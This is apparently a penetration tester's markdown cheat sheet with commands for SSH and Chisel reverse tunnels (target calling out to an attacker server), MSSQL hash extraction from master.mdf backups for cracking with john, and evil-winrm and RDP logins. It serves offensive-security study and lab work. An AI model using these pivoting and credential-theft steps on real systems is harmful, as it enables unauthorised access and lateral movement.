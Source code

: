 -----

### Create Tunnel

#### SSH
```
ssh -D 127.0.0.1:1080 {username}@{IP}
```

-----

#### Chisel

This tool used for forward local port to remote side.

* Usage

Server
```
chisel server -p {PORT} --reverse
```
Client
```
chisel client {IP}:{PORT} R:{socks/{remote_port}:127.0.0.1:{PORT}}
```
* Proxy
  - Target
    - `chisel client {IP}:{PORT} R:socks`
  - Attacker
    - `chisel server -p {PORT} --reverse`
* Port Forward
  - Target
    - `chisel client {IP}:{PORT} R:{remote_port}:127.0.0.1:{forward_port}`
  - Attacker
    - `chisel server -p {PORT} --reverse`
* Download
  - [chisel](https://github.com/jpillora/chisel)

-----

## Software
- MySQL
  - Connect
    - mysql -u {user} -p {database} -h {IP}
- MSSQL
  - Connect
    - `impacket-mssqlclient -p {PORT} {UserID}@{IP} -windows-auth`
  - [Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)
      - `Add-Type -Path 'OrcaMDF.RawCore.dll'`
    - `Add-Type -Path 'OrcaMDF.Framework.dll'`
    - `import-module .\Get-MDFHashes.ps1`
    - `Get-MDFHashes -mdf "master.mdf" | Format-List`
    - Use john
  - Backup File
```
C:\Program Files\Microsoft SQL Server\MSSQL14.SQLEXPRESS\MSSQL\Backup/master.mdf
```
```
C:/PROGRA~1/MICROS~1/MSSQL1~1.SQL/MSSQL/Backup/master.mdf
```
- WinRM (5985 port)
  - `sudo gem install evil-winrm`
  - `evil-winrm -i {IP} -u {user} -p {pass}`
- RDP
	- `xfreerdp +drives /u:{username} /p:{password} /v:{ip}:{port}`
